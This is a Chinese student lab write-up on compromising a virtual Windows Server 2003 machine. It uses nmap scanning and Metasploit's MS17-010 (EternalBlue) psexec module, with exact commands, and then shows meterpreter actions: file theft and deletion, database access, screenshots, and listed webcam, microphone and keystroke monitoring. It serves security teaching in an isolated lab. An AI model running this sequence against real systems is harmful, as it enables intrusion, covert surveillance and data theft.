# NMAP MSF实现对目标系统渗透 

## 实现对Windows XP 或 server 2003的控制

> **信息安全大作业用到了这个项目，就把它贴到这里** 参考资料：https://blog.csdn.net/weixin_44847002/article/details/105263781

1. Metasploit是一个免费的、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。
2. 此次采用kali Linux系统集成的metasploit进行测试验证MS17-010（永恒之蓝，著名比特币勒索漏洞）。实验环境均采用虚拟机。

> **Kali Linux：192.168.0.125**
>
> 
>
> **Windows Server 2003：192.168.0.115**
>
> 

### 1.先使用nmap探测网络中存活主机（设备）

```bash
nmap -sP 192.168.0.0/24
```



或使用

```bash
netdiscover -i eth0 -r 192.168.0.0/16
```



### 2.探测网络中的系统类型(nmap)

```bash
nmap -O 192.168.0.0/24
```



### 3.端口扫描

```bash
nmap -p 1-1024 192.168.0.115
```



> 端口介绍：
> **21：ftp**
> **80：http**
> 135：服务dcom、rpc的端口----客户机连入系统服务
> 139：netbios文件打印共享服务—共享磁盘
> 445：文件夹共享、打印共享服务

### 4.利用server 2003自身漏洞(ms17-010)进行入侵
前提：Windows server 2003 需要关闭防火墙；入侵前必须初始（`msfdb init`）、启动数据库（`msfdb start`）。

`msfdb status`查看数据库状态



检测Windows server 2003是否存在ms17-010漏洞

```bash
nmap --script=smb-vuln*.nse 192.168.0.115
```



准备入侵工具

```bash
msfconsole
```



打开之后会显示 **msf5 >** 。中间的图案是随机的，每次都不一样。

```bash
msf5 > search ms17_010 
# 搜索漏洞入侵模块
msf5 > use windows/smb/ms17_010_psexec
# 使用这个模块
```



```bash
msf5 exploit(windows/smb/ms17_010_psexec) > set rhosts 192.168.0.115
# 设置攻击目标的IP地址
msf5 exploit(windows/smb/ms17_010_psexec) > run 
# 运行入侵模块
```

<b style="color:red;font-size:large">注意：安装SQL server 2008时需要卸载Powershell相关的所有更新，否则会因为漏洞被修补而入侵失败！（下图为入侵失败照片）</b>



若出现

`meterpreter >`

，则证明入侵成功。



meterpreter十分强大，可以在对方机器无任何提示的情况下运行很多命令，其中shell可以直接运行windows的命令提示符（相当于cmd）

入侵结束。下面是测试环节：

> 1. 文件。我们在windows server 2003的C:处创建一个test.txt。
>
> 
>
> ​	利用cat命令可以读取文件
>
> 
>
> ​	利用edit命令可以调用vim修改文件
>
> 
>
> 
>
> ​	利用download命令可以下载文件，利用mkdir可以创建目录，利用rm可以删除文件或目录，利用cp复制文件，利用mv移动文件，利用execute运行文件等等。
>
> 
>
> 2. 数据库。需要用到命令提示符，使用shell命令调用。
>
> 
>
> ​	利用sql命令创建一个叫test的数据库
>
> 
>
> ​	在Windows Server 2003中创建表test_1，并插入两条数据。
>
> 
>
> ​	在kali上进行SQL查询操作，可以查询到刚刚创建的数据。
>
> 
>
> ​	也可以进行添加，修改，删除操作。
>
> 
>
> 
>
> 
>
> 3. 系统操作。比如在cmd命令中停止一个正在运行的进程。
>
> 
>
> ​	在meterpreter中使用screenshot截图。
>
> 
>
> 或者远程播放音乐（play），打开摄像头（webcam_list），录音（record_mic），获取系统级权限（getsystem），监听键盘鼠标操作或者远程操控键盘鼠标，利用kill强制停止进程，利用shutdown关机，利用reboot重启等。 **<完>**